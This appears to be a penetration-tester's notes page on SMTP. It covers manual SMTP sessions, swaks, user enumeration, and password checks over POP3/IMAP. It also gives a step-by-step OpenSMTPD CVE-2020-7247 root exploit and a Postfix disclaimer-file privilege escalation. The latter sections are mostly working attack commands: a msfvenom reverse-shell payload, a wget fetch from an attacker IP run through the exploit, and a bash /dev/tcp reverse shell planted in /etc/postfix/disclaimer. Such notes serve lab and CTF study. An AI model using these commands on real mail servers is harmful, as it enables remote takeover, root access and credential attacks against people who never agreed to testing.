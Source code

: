 # 25,587 - SMTP

The **Simple Mail Transfer Protocol (SMTP)** is used to **send emails** on ports `25` and `587`. The former is used used mainly for server-to-server email delivery and is often blocked by ISPs to prevent spam. The latter is used by users to send emails through their mail provider and it requires authentication (username & password); it is the modern, secure way to submit outgoing mail.

## Usage

{% tabs %}
{% tab title="Telnet" %}
{% code overflow="wrap" %}
```bash
# Connect to SMTP server
telnet mail.example.com 25
openssl s_client -connect <ip>:587

# Greet the server
HELO attacker.com
# or
EHLO attacker.com          # Extended SMTP (for authentication & more)

# Specify the sender email
MAIL FROM:<sender@example.com>

# Specify the recipient email
RCPT TO:<recipient@example.com>

# Start composing the email message
DATA

# Write email headers and body (end with a single dot '.' on a line)
Subject: Test Email

This is the email body.
.

# Authenticate using base64 encoded username and password (if needed)
AUTH LOGIN
<base64-username>
<base64-password>

# Close the session
QUIT
```
{% endcode %}
{% endtab %}

{% tab title="swaks" %}
The **Swiss Army Knife for SMTP** ([`swaks`](https://www.jetmore.org/john/code/swaks/)) is a CLI tool designed for testing and troubleshooting SMTP servers. It allows full control over the SMTP conversation and supports authentication, TLS, custom headers, attachments, and scripting, making it useful for verifying email server configurations, debugging, and crafting test messages in Red Team or penetration testing scenarios.

{% code overflow="wrap" %}
```bash
swaks --to x1337@hacking.com --from x7331@hacking.com --header "Subject: Hello" --body @body.txt --attach @config.Lib-ms --server 192.168.1.1 --port 25 --auth LOGIN --auth-user x7331@hacking.com --auth-password 'Pass123!'

# Multiple targets
swaks --to $(cat emails.txt | tr '\n' ',') ...
```
{% endcode %}
{% endtab %}

{% tab title="smtp-user-enum" %}
[`smtp-user-enum`](https://pentestmonkey.net/tools/user-enumeration/smtp-user-enum) is a CLI tool used to enumerate valid usernames on SMTP servers. It leverages SMTP commands like `VRFY` and `RCPT TO` to test for user existence, helping penetration testers identify valid email accounts for further attack stages such as phishing or password guessing.

{% code overflow="wrap" %}
```bash
smtp-user-enum -M VRFY -U usernames -t <target-IP>
```
{% endcode %}

The users can be validated manually via POP3 (`110`) and/or IMAP (`143`):

```bash
# Verify users via POP3
$ telnet <target-IP> 110

USER x7331
+OK # User exists
PASS test
-ERR [AUTH] Authentication failed. # Invalid password
USER x7331
+OK
PASS Passw0rd123!
+OK Logged in. # Valid password

# Validate users via IMAP
$ telnet <target-IP> 143

a1 LOGIN x7331 Passw0rd123!
a1 OK [CAPABILITY ... SPECIAL-USE] Logged in # Valid creds
```
{% endtab %}
{% endtabs %}

## Servers

### OpenSMTPD - RCE

OpenSMTPD is a free and open-source mail transfer agent (MTA) developed as part of the OpenBSD project. Designed with security and simplicity in mind, it implements the SMTP to handle the sending and receiving of email. OpenSMTPD aims to provide a secure and easy-to-audit alternative to more complex MTAs. It is commonly deployed on Unix-like systems and is known for a minimal codebase, privilege separation, and strict adherence to secure coding practices.

**OpenSMTPD versions from 6.4 to 6.6.1** are vulnerable to [CVE-2020-7247](https://nvd.nist.gov/vuln/detail/CVE-2020-7247) and allows **RCE** as `root` via specially crafted SMTP messages. The issue arises from **improper input validation** in the `smtpctl` or `mail-from` handling logic, where attacker-supplied input is passed directly to a shell without sanitization. By sending a maliciously crafted email address, arbitrary shell commands can be executed on the target system with elevated privileges.

{% code overflow="wrap" %}
```bash
$ searchsploit OpenSMTPD
OpenSMTPD 6.6.1 - Remote Code Execution | linux/remote/47984.py

# Create reverse shell payload
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.170 LPORT=25 -f elf -o revshell.elf

# Transfer malicious file
$ python3 47984.py bratarina 25 "wget 192.168.45.170/revshell.elf -O /tmp/revshell.elf"

# Assign execute permissions
 python3 47984.py bratarina 25 "chmod +x /tmp/revshell.elf && ./tmp/revshell.elf"
                                                                                                                                                                                                                 
# Execute the file                                                                                                                                                                                                                           
$ python3 47984.py bratarina 25 "/tmp/revshell.elf" 
```
{% endcode %}

### PostFix

Postfix is a MTA used on Unix-like systems to route and deliver email. It typically operates on TCP port `25` and is **widely deployed as a default mail server** due to its speed, ease of configuration, and security features.

## Disclaimer Files

A disclaimer file in the context of SMTP email systems is typically a plaintext, bash script, or HTML-formatted message **automatically appended to the body of outbound emails**. It is most commonly used to attach legal warnings, confidentiality notices, or company branding. These disclaimers are not a function of the SMTP protocol itself, but are implemented through external tools or content filters that process outgoing mail before it reaches the final MTA.

In practice, these disclaimers are inserted using mail filters or milter-compatible tools like `altermime`, `MIMEDefang`, or `Amavis`, often integrated into MTAs such as Postfix, Exim, or Sendmail. The disclaimer content is usually stored in a local file, and its location depends on the specific configuration of the mail system. Common paths include `/etc/postfix/disclaimer.txt`, `/usr/local/etc/disclaimer.txt`, or within a custom script or filter directory.

{% code overflow="wrap" %}
```bash
# Sending an email
swaks --to targetEmail@domain.com --from x7331@domain.com --header "Disclaimer file" --body @body.txt --server <target-IP> --port 25

# Inspecting what's happening with pspy, i.e., disclaimer file automatically appended
$ ./pspy64
2025/07/26 15:33:12 CMD: UID=997   PID=38173  | pipe -n dfilt -t unix flags=Rq user=filter argv=/etc/postfix/disclaimer -f ${sender} -- ${recipient}
2025/07/26 15:33:12 CMD: UID=997   PID=38174  | /bin/bash /etc/postfix/disclaimer -f x7331@domain.com -- targetEmail@domain.com
```
{% endcode %}

If writable access is available, it can be leveraged for PE:

{% code overflow="wrap" %}
```bash
# Check what files the group have permissions on
$ find / -group filter 2>/dev/null
/etc/postfix/disclaimer

# Linpeas can also highlight it
╔══════════╣ Interesting GROUP writable files (not in Home) (max 200)
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#writable-files
  Group filter:
/etc/postfix/disclaimer

# Insert reverse shell code to the file
$ head /etc/postfix/disclaimer
#!/bin/bash
bash -i >& /dev/tcp/192.168.45.170/80 0>&1
```
{% endcode %}

On the next email sent, the reverse shell code will be executed.
